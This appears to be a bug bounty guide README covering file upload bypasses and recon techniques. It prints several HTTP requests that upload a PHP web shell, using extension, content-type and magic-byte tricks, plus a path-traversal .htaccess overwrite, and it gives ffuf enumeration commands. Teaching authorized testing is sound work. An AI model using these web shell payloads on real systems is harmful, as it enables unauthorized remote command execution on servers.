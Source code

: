 # Bug Bounty Hunting Mindset v1.0

<h2 align="center"><strong>Bug Bounty Hunting Mindset v1.0</strong></h2>

<p align="center">A focused and practical resource for bug bounty hunters, penetration testers, and red teamers — covering real-world techniques, bypasses, and offensive security insights.</p>

***

<h3 align="center"><strong>Vulnerabilities &#x26; Bypasses:</strong></h3>

> **Info:**
>
> <p align="center">A collection of known vulnerability types with practical methods to bypass filters, protections, and common security mechanisms.</p>

#### <sup>**V01.**</sup>**&#x20;Insecure file uploads: A complete guide to finding advanced file upload vulnerabilities:**

1. **Identifying file upload vulnerabilities**
   * Retrievable
   * Content-Type
2.  **Exploiting simple file upload vulnerabilities**

    * No restrictions

      ```http
      POST /Api/FileUpload.aspx HTTP/2
      Host: console.example.com
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
      Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
      Accept: */*
  
      ------WebKitFormBoundary3RwPFJztxaJvrqAq
      Content-Disposition: form-data; name="file"; filename="shell.php"
      Content-Type: application/x-php
  
      <?php echo system($_GET['e']); ?>
      ------WebKitFormBoundary3RwPFJztxaJvrqAq--
      ```

    * Bypassing client-side restrictions
      *   HTML "accept" attribute

          ```html
          <input type="file" accept=".jpg, .jpeg, .png, .gif" />
          ```
      * using proxy interceptors
    *   Bypassing a file extension blacklist

        <p align="center">
          <img src=".gitbook/assets/file-upload-vuln1.png"><br>
          <sub><strong>Bypass file extension exclusion lists</strong></sub>
        </p>

    *   Bypassing a file extension whitelist

        <p align="center">
          <img src=".gitbook/assets/file-upload-vuln2.png" width="600"><br>
          <sub><strong>Bypass file extension inclusion lists</strong></sub>
        </p>


If the file upload implementation determines your file type by the content type, you can also attempt to upload a file with a whitelisted file extension but with your malicious content type:

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center">Take note of the <mark style="color:red;">filename</mark> and <mark style="color:red;">Content-Type</mark> in the example request above.</p>

3. **Exploiting advanced file upload vulnerabilities**

* Bypassing content type restrictions

  ```http
  POST /Api/FileUpload.aspx HTTP/2
  Host: console.example.com
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
  Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
  Accept: */*
  
  ------WebKitFormBoundary3RwPFJztxaJvrqAq
  Content-Disposition: form-data; name="file"; filename="shell.php"
  Content-Type: image/png
  
  <?php echo system($_GET['e']); ?>
  ------WebKitFormBoundary3RwPFJztxaJvrqAq--
  ```

* Magic bytes
  *   These are the magic bytes for a normal image (PNG) in HEX:

      `89 50 4E 47 0D 0A 1A 0A`

      ```http
      POST /Api/FileUpload.aspx HTTP/2
      Host: console.example.com
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
      Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
      Accept: */*
      
      ------WebKitFormBoundary3RwPFJztxaJvrqAq
      Content-Disposition: form-data; name="file"; filename="shell.php"
      Content-Type: application/x-php
      
      ‰PNG␍␊␚␊
      <?php echo system($_GET['e']); ?>
      ------WebKitFormBoundary3RwPFJztxaJvrqAq--
      ```

<p align="center"><a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures - Wikipedia</a></p>

* Overwriting server configuration files
  * .htaccess

    ```http
    POST /Api/FileUpload.aspx HTTP/2
    Host: console.example.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
    Accept: */*
    
    ------WebKitFormBoundary3RwPFJztxaJvrqAq
    Content-Disposition: form-data; name="file"; filename="../../../.htaccess"
    Content-Type: text/plain
    
    # Your server configuraton rules
    ------WebKitFormBoundary3RwPFJztxaJvrqAq--
    ```

***

#### <sup>**V02.**</sup>

***

<h3 align="center"><strong>Hunting Techniques &#x26; Ideas:</strong></h3>

> **Info:**
>
> <p align="center">General strategies, techniques, and creative approaches to help you discover more bugs and uncover hidden attack surfaces.</p>

#### <sup>**T01.**</sup>**&#x20;7 Overlooked recon techniques to find more vulnerabilities:**

1. **Targeted wordlists**
   1. [CeWL](https://github.com/digininja/CeWL)
2. **Virtual host (VHost) enumeration**

  ```sh
  ffuf -u https://example.com -H "Host: FUZZ.example.com" -w /path/to/wordlist
  ```

3. **Forced browsing using different HTTP methods**

  ```sh
  ffuf -u https://api.example.com/PATH -X METHOD -w /path/to/wordlist:PATH -w /path/to/http_methods:METHOD
  ```

4. **JavaScript file monitoring**
   1. [JSMON](https://github.com/robre/jsmon)
5. **Crawling with different user-agent headers**
   1. <kbd>Proxy → Proxy settings → Tools → Proxy → HTTP match and replace rules</kbd>
6. **Finding related assets with favicon hashes**
   1. [Shodan](https://www.shodan.io/)
   2. [Censys](https://search.censys.io/)
7. **Looking up legacy versions of JavaScript files**
   1. [internet archives](https://archive.org/)

***

#### <sup>**T02.**</sup>

***

<h3 align="center"><strong>Closing Note:</strong></h3>

It is my pleasure and honor to have your support and follow-up. I look forward to exchanging knowledge and collaborating with you in the field of cybersecurity.

Stay connected:

* **X Platform:** [iProgrammer16](https://x.com/iProgrammer16)
* **X Platform:** [1ZeroDay](https://x.com/1ZeroDay)
* **LinkedIn:** [Linkedin](https://www.linkedin.com/in/saleh16abdullah/)
* **Github:** [iProgrammer16](https://github.com/iProgrammer16)
* **Telegram Channel:** [1ZeroDay](https://t.me/+ylDx8zGNLEwzMWU8)
* **For collaboration on HackerOne:** [HackerOne Profile - iProgrammer16](https://hackerone.com/iprogrammer16)
* **All social links in one place:** [Linktr](https://linktr.ee/1ZeroDay)
